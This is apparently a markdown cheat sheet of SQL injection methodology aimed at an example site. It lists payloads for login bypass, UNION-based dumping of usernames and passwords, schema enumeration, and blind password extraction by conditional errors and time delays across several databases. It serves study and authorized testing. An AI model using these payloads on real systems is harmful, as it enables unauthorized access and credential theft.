 # Methodology - SQL Injection

##### Retrieving hidden data #1
```
Original query:

SELECT * FROM products WHERE category = 'Gifts' AND released = 1 

https://insecure-website.com/products?category=Gifts'--

This results in the SQL query:

SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1 
```

##### Retrieving hidden data #2
```
Original query:

SELECT * FROM products WHERE category = 'Gifts' AND released = 1 

https://insecure-website.com/products?category=Gifts'+OR+1=1--

This results in the SQL query:

SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1 
```

##### Subverting application logic
```
SELECT * FROM users WHERE username = $USER AND password = $PASS

If user input is administrator'-- 

SELECT * FROM users WHERE username = 'administrator'--' AND password = '' 
```

##### Determining the number of columns required in an SQL injection UNION attack #1
```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--

When the specified column index exceeds the number of actual columns in the result set:

The ORDER BY position number 3 is out of range of the number of items in the select list.
```
##### Determining the number of columns required in an SQL injection UNION attack #2
```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc. 
```
##### Finding columns with a useful data type in an SQL injection UNION attack
```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'-- 
```
##### Using an SQL injection UNION attack to retrieve interesting data
```
 ' UNION SELECT username, password FROM users-- 
```

##### String concatenation
```
Oracle 	   'foo'||'bar'
Microsoft  'foo'+'bar'
PostgreSQL 'foo'||'bar'
MySQL 	   'foo' 'bar' [Note the space between the two strings]
           CONCAT('foo','bar')
```
##### Querying the database type and version
```
Database type 	                          Query
Microsoft, MySQL 	                 SELECT @@version
Oracle 	                          SELECT * FROM v$version
PostgreSQL 	                         SELECT version() 
```

##### Listing the contents of the database (Non-Oracle)
```
' UNION SELECT NULL,table_name from information_schema.tables--
' UNION SELECT NULL,column_name from information_schema.columns where table_name='users'--
' UNION SELECT username,password from users--
```

##### Listing the contents of the database (Oracle)
```
 You can list tables by querying all_tables:

SELECT * FROM all_tables

And you can list columns by querying all_tab_columns:

SELECT * FROM all_tab_columns WHERE table_name = 'USERS' 
```

##### Exploiting blind SQL injection by triggering conditional responses
```
xyz' UNION SELECT 'a' FROM Users WHERE Username = 'Administrator' and SUBSTRING(Password, 1, 1) > 't'-- 
xyz' UNION SELECT 'a' FROM Users WHERE Username = 'Administrator' and SUBSTRING(Password, 1, 1) = 's'-- 
```
##### SUBSTRING METHOD
```
Oracle 	SUBSTR('foobar', 4, 2)
Microsoft 	SUBSTRING('foobar', 4, 2)
PostgreSQL 	SUBSTRING('foobar', 4, 2)
MySQL 	SUBSTRING('foobar', 4, 2) 
```
##### Inducing conditional responses by triggering SQL errors
```
xyz' union select case when (username = 'Administrator' and SUBSTRING(password, 1, 1) > 'm') then 1/0 else null end from users-- 
```
##### Conditional Errors
```
Oracle 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual
Microsoft 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
PostgreSQL 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END
MySQL 	SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a') 
```
##### Time Delays
```
Oracle 	dbms_pipe.receive_message(('a'),10)
Microsoft 	WAITFOR DELAY '0:0:10'
PostgreSQL 	SELECT pg_sleep(10)
MySQL 	SELECT sleep(10) 
```
##### Conditional Time Delays
```
Oracle 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual
Microsoft 	IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'
PostgreSQL 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END
MySQL 	SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a') 
```
##### Conditional Time Delay Example
```
x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+substring(password,2,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```
